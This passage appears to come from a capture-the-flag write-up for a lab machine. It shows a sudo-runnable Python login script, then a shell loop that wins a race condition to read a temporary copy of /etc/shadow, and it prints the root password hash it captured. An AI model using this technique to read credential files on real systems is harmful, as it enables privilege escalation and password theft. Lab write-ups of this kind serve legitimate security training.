 ```python
except Exception as e:
    traceback.print_exc()
    sys.exit(0)

if session['authenticated'] == 1:
    while True:
        command = input(session['user'] + "@Obscure$ ")
        cmd = ['sudo', '-u',  session['user']]
        cmd.extend(command.split(" "))
        proc = subprocess.Popen(cmd, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

        o,e = proc.communicate()
        print('Output: ' + o.decode('ascii'))
        print('Error: '  + e.decode('ascii')) if len(e.decode('ascii')) > 0 else print('')
```

On top of this we see that we can run with sudo (tl;dr: as root user) the mentioned script:

```console
robert@obscure:~/BetterSSH$ sudo -l
Matching Defaults entries for robert on obscure:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User robert may run the following commands on obscure:
    (ALL) NOPASSWD: /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
```

By analyzing the source code, we see that once you try to login with `BetterSSH`, there is a moment where `/etc/shadow` is open in read mode (posible due to execute `BetterSSH.py` with sudo!), and is written under `/tmp/SSH` on a file, later on the temporal `/etc/shadow` written in tmp will be deleted, this means here we have a race condition where at some moment if we try to read the contents of the temporal file generated we will be able to do it, said this, let's try it.

On one terminal, we execute `BetterSSH.py` with sudo:

```console
robert@obscure:~/BetterSSH$ sudo /usr/bin/python3 /home/robert/BetterSSH/BetterSSH.py
Enter username: root
Enter password: foo
Incorrect pass
```

And in another term, we execute a while true loop, that will be doing cat on the files under `/tmp/SSH`, and at some moment we confim the race condition we previously thought of as we have the content of `/etc/shadow` for the user root (remember the script is run with sudo):

```console
robert@obscure:/tmp/SSH$ while true; do cat *; done
root
$6$riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1
18226
0
99999
7
```
